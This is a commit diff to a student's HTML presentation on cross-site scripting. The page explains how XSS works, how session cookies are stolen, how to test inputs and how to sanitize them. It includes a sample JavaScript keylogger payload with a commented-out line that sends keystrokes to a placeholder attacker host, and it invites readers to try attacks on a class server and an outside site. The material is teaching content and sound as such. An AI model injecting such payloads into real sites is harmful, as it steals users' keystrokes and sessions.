

Before and after one commit to lorenrose1013/softDevHW, a plain HTML site: page presentation/index.html in a window 1280 px wide. Shown: the part 61-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
done w/ xss pres

```diff
--- a/presentation/index.html
+++ b/presentation/index.html
@@ -6,18 +6,51 @@
 				Cross Site Scripting, more commonly known as XSS, is a type of web vulnerability that allows for the unintended execution of arbitrary javascript on a webpage. It occurs when user input is added to a webpage unsanitized, allowing users to inject html and javascript code, which the browser renders as if it came from the author of the page.
 			</p>
 
+		<h2>Behind the Name</h2>
+			<p>
+				The name, cross site scripting, refers to the ability to send data to another website, one the hacker controls. XSS is commonly used to steal credentials. The most common use is to send the session cookie to a website the hacker controls. The hacker can then visit the compromised website, replace their session cookie with the stole one, and BOOM, they're logged in as the victim - no password nessecary.
+			</p>
+
 		<h2>Finding XSS Vulns</h2>
 			<p>
-To discover XSS vulnerabilities, test any field that accepts user input and attempt to insert special characters, such as script tags.
+				To discover XSS vulnerabilities, test any field that accepts user input and attempt to insert special characters, such as script tags. Observe how the input is represented when printed back, and make note of any missing characters or html-encoding. This website details some methods to try to get past basic filtering.
+				<a href="https://www.owasp.org/index.php/Testing_for_Cross_site_scripting"></a>
 			</p>
 
 		<h2>Exploiting XSS Vulns</h2>
 			<p>
+				Exploiting XSS vulns simply means getting a script code through any filtering, with some javascript payload enclosed. The simplest example is a plain:
+						"&lt;script&gt; alert(1) &lt;/script&gt;"
+				The javascript inside the script tag is referred to as the payload. Your payload can be anything you can write in javascript. For example, a keylogger:
+						&lt;script&gt;
+						var keys=&#39;&#39;;
+						document.onkeypress = function(e) {
+						  get = window.event?event:e;
+						  key = get.keyCode?get.keyCode:get.charCode;
+						  key = String.fromCharCode(key);
+						  keys+=key;
+						}
+						window.setInterval(function(){
+						  //new Image().src = &#39;http://hack.com/keylogger?c=&#39;+keys;
+						console.log(keys);
+						  keys = &#39;&#39;;
+						}, 1000);
+						&lt;/script&gt;
+				Try writing your own below!
 			</p>
 
 		<h2>Fortifying Your Code</h2>
 			<p>
+				To protext your own website from XSS vulnerablilities, sanitize all input from users. If using Jinja with Flask, Jinja will sanitize input for you. There are two main strategies for sanitizing input: black-listing and white-listing.
+					<b>Black Listing</b>
+						Create a list of special characters that could be promlematic. This includes script tags, quotes, semicolons, percent signs, ampersands, etc. Either strip these characters out, or html-encode them. This method is more convenient but could be evaded.
+					<b>White Listing</b>
+						Filter user input and only accept characters that are nessecary (ie alpha-numeric). This prevents any unintended characters from getting through and is the most secure method. However, this method is less convenient, and not always possible if special characters are needed. In that case, revert to black-listing and html-encode any special characters.
 			</p>
 
+		<h2>Try It!</h2>
+			<p>
+				Go to the stuy homework server or <a href="http://polarity.party/~polarity/datingSite/"></a> to try it out. Poke around. See what you can do.
+			<p>
 
 </html>
```
Also changed, not shown: presentation/index.js (+18 -0 lines). Lines whose indentation alone changed are shown as unchanged.
